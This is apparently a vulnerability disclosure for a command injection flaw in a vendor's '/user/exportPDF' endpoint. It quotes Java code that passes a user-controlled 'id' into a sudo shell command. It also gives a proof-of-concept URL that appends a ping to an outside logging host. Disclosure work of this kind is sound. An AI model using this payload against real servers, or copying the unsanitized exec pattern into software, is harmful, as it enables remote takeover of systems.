


# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:  Remote Code Execution (RCE) in User ExportPDF Functionality

### Summary:
The code snippet provided contains a vulnerability that allows an attacker to execute arbitrary commands on the server, leading to Remote Code Execution (RCE) due to improper handling of user input.

### Affected Endpoint:
`/user/exportPDF`

### Vulnerability Type:
Remote Code Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/user/exportPDF"})
public void exportPDF(HttpServletResponse response, @RequestParam("id") String id) {
   try {
      Runtime run = Runtime.getRuntime();
      String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
      String fileName = System.currentTimeMillis() + ".pdf";
      String filePath = rootPath + "/pdffile/" + fileName;
      File dir = new File(rootPath + "/pdffile/");
      if (!dir.exists()) {
         dir.mkdir();
      }

      Process process = run.exec("sudo wkhtmltopdf " + CommonConstants.contextPath + "/user/info?id=" + id + " " + filePath);
      process.waitFor();
      response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
      InputStream in = new FileInputStream(new File(filePath));
      int len = false;
      byte[] buf = new byte[1024];
      OutputStream out = response.getOutputStream();

      int len;
      while((len = in.read(buf)) > 0) {
         out.write(buf, 0, len);
      }

      in.close();
   } catch (Exception var13) {
      logger.error("---------------------" + var13);
   }
}
```

### Proof of Concept (PoC):
```
http://uri/user/exportPDF?id=1;ping 0d40b02f.log.nat.cloudns.ph.;
```



### Impact:

An attacker can exploit this vulnerability by injecting malicious commands through the 'id' parameter in the URL, potentially leading to unauthorized access, data leakage, or complete system compromise.

### Recommendation:
1. Sanitize and validate user input to prevent command injection attacks.
2. Avoid using user-controlled input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.
4. Regularly update and patch software dependencies to prevent known vulnerabilities.

### Conclusion:
The presence of this RCE vulnerability in the code poses a significant security risk to the application and its users. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP Command Injection: https://owasp.org/www-community/attacks/Command_Injection
